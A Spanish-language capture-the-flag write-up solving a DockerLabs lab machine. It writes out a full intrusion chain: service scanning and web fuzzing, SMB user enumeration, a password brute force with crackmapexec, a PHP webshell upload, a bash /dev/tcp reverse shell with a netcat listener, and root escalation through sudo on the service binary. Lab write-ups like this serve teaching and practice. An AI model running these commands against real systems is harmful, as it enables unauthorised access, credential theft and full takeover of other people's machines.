 Para iniciar inicimos el tres floder con el el `mkdir scaning explits others` 

 *  **scaning**: Teine los escaneos que hacemos sobre la maquina como nmap, etc.
 * **exploit**: contiene todos los exploits and vulnerabilidades que encontremos de los servicios que tenemos.
 * **Others**: todo los demas tanto ecuciones and info de la machinas.

con el `unzip`  descomprimimos el archivo del allien.zip  para desplegara la maquina de Dockerlabs.

![[Pasted image 20241013174516.png]]

`sudo bash auto_deploy.sh allien.tar` --->  lanzamos la maquiana de dokerlabs.

![[Pasted image 20241013174947.png]]


#### Enumeracion.
usando nmap resaizamos un scaneo y lista de servicios con que encientran en la maquina.
`sudo nmap -p- --open -sS -sCV --min-rate 5000 -n -Pn -vvv 172.17.0.2 -oN scaning.txt`

![[Pasted image 20241013175550.png]]

Observamos los servicios 

| servico | Puerto | version                          |
| ------- | ------ | -------------------------------- |
| ssh     | 22     | OpenSSH 9.6p1 Ubuntu 3ubuntu13.5 |
| HTTP    | 80     | Apache httpd 2.4.58              |
| smb     | 445    | smbd 4.6.2                       |
El primer puerto que enemumerarimos es el 80, por  lo que nos dirigimos al navegador web.

![[Pasted image 20241013182032.png]]

vemos una sitio web  donde hay que inicar sesion asi que veamos que tecnologias tiene atras.

el **wappalyzer** no reporta mucha cosa incluso los que ya ha reportado el **nmap** asi paso hacer fuzzing web.

`wfuzz -c -t 200 --hc=404,500 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -u http://172.17.0.2/FUZZ.php`

`gobuster dir -u http://172.17.0.2 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium -x php`
implementado **wfuzz** o **gobuster** con la expencion de php para ver que encontramos tenmos diferentes rutas.

![[Pasted image 20241015092925.png]]

ok vemos info.php y vemos que son la el archivo de infomacion de php y la otro es la paguina de poductos en la cual no hay mucho que hacer. 

ya que por el puerto 80 no enctramos nado eneumeraremos ahora el puerto 139,445 smb  samba

ok empecemos por smbmap sin usaurio y contraseña pero no obtnemos nada asi que usaremos `rpcclient`

`rpcclient -U "" -N 172.17.0.2` con el comado enumdomusers podemos listar usaurios del sistema y teniemos mucho

![[Pasted image 20241015100722.png]]

vemos tenome varios usurios entre ellos administrator este no tenemos aceso y otro llamdo satriani7 ok usando crackmapexec haremios un ataque para para obtener aceso de la siguiente manera  

`crackmapexec smb 172.17.0.2 -u 'satriani7' -p /usr/share/wordlists/rockyou.txt`

![[Pasted image 20241015101546.png]]

bingo tenemos un exito el usurio  tinene  el password `50cent`


`smbmap -H 172.17.0.2 -u "satriani7" -p "50cent"`

![[Pasted image 20241015102449.png]]
 vale ahora smbmap  y tenemos varios archivos **READ ONLY** myshare, backup24. vallamos a ver backup usando **smbclient**

`smbclient //172.17.0.2/backup24 -U 'satriani7%50cent'`

![[Pasted image 20241015103901.png]]
![[Pasted image 20241015104015.png]]

usando los camdo dir y  mget descargamos los dos documento que vemos uno llamdo *credentials.txt* y *notes.tx* asi que vemos que podemos hacer

al obtener cada una de estos usando `mget *` .  abriendo en nuestra maquina el archivo **credentials.txt** vemos la credenciales de administrador.

![[Pasted image 20241016145200.png]]

tenemos la credecial de administrator por lo que podimos usando crackmapexec ver que podemos hacer.

`crackmapexec smb 172.17.0.2 -u 'administrador' -p 'Adm1nP4ss2024' --shares`

![[Pasted image 20241016145850.png]]
vemos que el usuario administador  tiene premiso de lectura y escritura en el la carpeta de home y quemarca que es poduccion vemos que es lo que obtenemos

usando `smbmap -H 172.17.0.2 -u "administrador" -p "Adm1nP4ss2024" -r home` 
![[Pasted image 20241016150740.png]]

vemos una lista de archivos muy parecido a los encontrados al aver listado la rutas del navegador asi que podiamos probrar subiendo un pwned.php y ver que tal y que podemos encontrar.
![[Pasted image 20241016151156.png]]
subiendo esta codigo podemos ver si podemos ejecutar comando en el sistema.

para susbie el archivo usamos de nuebo smbcliente pero estaves con la credenciales del usario administrador.

`smbclient //172.17.0.2/home -U 'administrador%Adm1nP4ss2024'`

![[Pasted image 20241016151822.png]]

y usando el metodo put en smbclient podemos subur el archivo 

ahor si nos dirigimos al buscador podemos ver si ese encuntrae en la lista de direcctorios

![[Pasted image 20241016152037.png]]

ok lo emos conseguido ahora solo restar crear un reveshell para obtener una shell en de la maquina victima.

en este caso creamo una reveshell ayudados de [Online - Reverse Shell Generator (revshells.com)](https://www.revshells.com/)

escribiemo y ejecutamos en el navegador 

`bash -c "sh -i >& /dev/tcp/172.17.0.1/443 0>&1"`

y en nustra maquina atacante 

`nc -nlvp 443`


![[Pasted image 20241016153310.png]]
 bien hecho ya tenemos acesos a la maquiana ahora solo resta trata la tty y escaclar privilejios

 
#### Private Esacalate
luego de tratar la tty  lo primero que hacemos es ejecutar un `sudo -l`

![[Pasted image 20241016164447.png]]

vemos que como cualquier usario podemos ejecitar el services busando en GTFBIN 
![[Pasted image 20241016164754.png]]

encontramos que pidemos escalar privilejios usando
`sudo /usr/sbin/service ../../bin/bash`

asi que ejecutamos y obetenemos asi un bash como root
![[Pasted image 20241016165010.png]]


###### by Juandas13
